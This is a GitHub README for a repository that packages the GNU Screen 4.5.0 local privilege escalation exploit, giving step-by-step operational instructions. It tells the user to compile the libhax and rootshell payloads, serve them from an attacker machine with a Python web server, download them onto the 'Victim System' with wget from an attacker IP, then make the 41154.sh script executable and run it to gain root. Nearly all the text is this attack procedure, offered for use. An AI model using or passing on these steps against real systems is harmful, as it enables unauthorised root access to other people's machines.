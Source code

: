 # GNU-Screen-4.5.0-Local-Privilege-Escalation-Files
## Add low GLIBC version release file
For more information, see [release](https://github.com/hyunwen/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/releases)
## Steps to Escalate Privilege

1. Download the 3 files hosted in this Repo.
   - [41154.sh](https://github.com/Pavandeep2318/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/blob/master/41154.sh)
   - [libhax.c](https://github.com/Pavandeep2318/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/blob/master/libhax.c)
   - [rootshell.c](https://github.com/Pavandeep2318/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/blob/master/rootshell.c)
2. Put them in the same directroy
3. Compile the libhax file using the following command:
```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```
4. Compile the rootshell file using the following command:
```
gcc -o rootshell rootshell.c
```
5. Use the python one-liner to host these files:
```
python -m SimpleHTTPServer 80
```
6. Download the following files on the Victim System. 
    - 41154.sh
    - libhax.so
    - rootshell
```
wget <Attacker IP Address>/41154.sh
wget <Attacker IP Address>/libhax.so
wget <Attacker IP Address>/rootshell
```
7. Change the permissions for the file to execute it. 
```
chmod 777 41154.sh
```
8. Execute the payload
```
./41154.sh
```
